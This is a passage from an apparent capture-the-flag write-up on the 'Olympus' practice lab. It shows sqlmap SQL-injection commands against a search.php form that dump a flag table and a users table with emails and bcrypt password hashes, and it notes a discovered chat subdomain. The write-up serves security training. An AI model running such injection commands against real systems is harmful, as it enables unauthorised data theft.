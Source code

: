 ```shell
[1 column]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flag   | varchar(255) |
+--------+--------------+
[REDACTED]
geobour98@kali:~$ sqlmap -u "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" --random-agent -v 3 --batch -D olympus -T flag -C flag --dump
Database: olympus
Table: flag
[1 entry]
+---------------------------+
| flag                      |
+---------------------------+
|        [REDACTED]         |
+---------------------------+
```


### Flag 2


There is another interesting table found from `sqlmap`, which is `users` and in the `user_email` column we can find another domain used `chat.olympus.thm`, so we add this too to `/etc/hosts`.

```shell
geobour98@kali:~$ sqlmap -u "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" --random-agent -v 3 --batch -D olympus -T users --columns
[REDACTED]
Database: olympus
Table: users
[9 columns]
+----------------+--------------+
| Column         | Type         |
+----------------+--------------+
| randsalt       | varchar(255) |
| user_email     | varchar(255) |
| user_firstname | varchar(255) |
| user_id        | int          |
| user_image     | text         |
| user_lastname  | varchar(255) |
| user_name      | varchar(255) |
| user_password  | varchar(255) |
| user_role      | varchar(255) |
+----------------+--------------+
[REDACTED]
geobour98@kali:~$ sqlmap -u "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" --random-agent -v 3 --batch -D olympus -T users -C randsalt,user_email,user_name,user_password --dump
[REDACTED]
Database: olympus
Table: users
[3 entries]
+----------+------------------------+------------+--------------------------------------------------------------+
| randsalt | user_email             | user_name  | user_password                                                |
+----------+------------------------+------------+--------------------------------------------------------------+
| <blank>  | prometheus@olympus.thm | prometheus | $2y$10$YC6uoMwK9VpB5QL513vfLu1RV2sgBf01c0lzPHcz1qK2EArDvnj3C |
| dgas     | root@chat.olympus.thm  | root       | $2y$10$lcs4XWc5yjVNsMb4CUBGJevEkIuWdZN3rsuKWHCc.FGtapBAfW.mK |
```
